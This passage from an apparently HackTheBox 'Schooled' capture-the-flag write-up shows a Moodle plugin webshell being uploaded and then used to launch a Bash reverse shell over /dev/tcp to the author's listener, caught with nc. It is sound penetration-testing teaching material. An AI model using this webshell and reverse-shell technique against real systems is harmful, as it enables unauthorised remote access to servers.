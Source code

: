 I’ll upload that via the administrator panel:

![image-20210401175829804](https://0xdfimages.gitlab.io/img/image-20210401175829804.png)

The next page shows a bunch of OKs (and a couple warnings) and I can click
continue at the bottom:

![image-20210401175921082](https://0xdfimages.gitlab.io/img/image-20210401175921082.png)

Now the webshell is available:

    
    
    oxdf@parrot$ curl http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=id
    uid=80(www) gid=80(www) groups=80(www)
    

It seems like the box is periodically cleaning up plugins as well.

### Shell

#### Initial

I’ll use the webshell to get a reverse shell. Interesting, even though the box
is BSD, the Bash reverse shell works perfectly:

    
    
    oxdf@parrot$ curl -G --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.7/443 0>&1'" http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php
    

At `nc`:

    
    
    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.7] from (UNKNOWN) [10.10.10.234] 41068
    bash: cannot set terminal process group (1039): Can't assign requested address
    bash: no job control in this shell
    [www@Schooled /usr/local/www/apache24/data/moodle/blocks/rce/lang/en]$ id
    uid=80(www) gid=80(www) groups=80(www)
    

For people used to Linux, it’s worth noting that the web root isn’t
`/var/www/html` as is typically seen there, but rather
`/usr/local/www/apache24/data`.

#### Upgrade

Python doesn’t appear to be installed on the box:

    
    
    [www@Schooled /]$ which python
    [www@Schooled /]$ which python3
    

It took me a while to notice, but it is installed, just not on the `$PATH`:

    